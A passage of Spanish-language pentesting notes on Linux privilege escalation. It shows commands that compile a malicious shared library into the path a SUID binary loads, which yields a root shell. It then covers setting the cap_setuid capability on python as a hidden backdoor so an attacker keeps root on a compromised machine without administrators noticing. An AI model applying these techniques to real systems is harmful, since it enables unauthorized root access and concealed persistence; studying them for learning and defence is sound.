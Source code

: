 lo compilamos y lo colocamos en la ruta que llama el binario SUID:

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

y cuando lo ejecutemos llamara a ese `.so` malicioso que creamos y que nos spawnea una shell como root al ser un SUID:

```bash
/usr/local/bin/suid-so
```

## Capabilities

Supongamos que a comprometimos una maquina y escalamos privilegios, queremos crear una forma de persistencia con esta maquina pero de forma privilegiada. Es decir salirnoss de la maquina, volvera entrar y poder volver a ser root. Como yya fue una maquina comprometida y ya escalamoslos privilegios pdemos hacerlo como lo hicimos si no es mucho lio. 

Tambien podemois debar un binario con un permiso SUID pero si el administrador revisa esto lo quitara y nos arruina el proceso. Es ahi donde entran las capabilities, son como permisos privilegiados en un programa pero que a nivel de permisos no se muestra nada diferente.

Con las capabilities una vez que volvamos a acceder ala maquina sera muy facil convertirnos en Root, no se ve nada raro en la maquina victima y seracomo dejar nuestra escalera para subir.

### AGREGAR, ELIMINAR Y OBTENER CAPABILITIES

```bash
OBTENCION (como usuario no privilegiado)

getcap -r / 2>/dev/null

-r: deforma recursiva
/: ruta en este caso la raiz

la capabilitie 'cap_setuid+ep' es la que nos interesa de lo que muestra en el los resultados, ella debe estar asignada a un binario como php, python, bash, etc. 
```

```bash
ELIMINACION (como usuario privilegiado)

setcap -r /usr/bin/pthon3.8

-r: remove
```

```bash
AGREGAR (como usuario privilegiado)

setcap cap_setuid+ep /usr/bin/pthon3.8

```

### UNA VEZ IDENTIFICADO LA CAPABILITIE
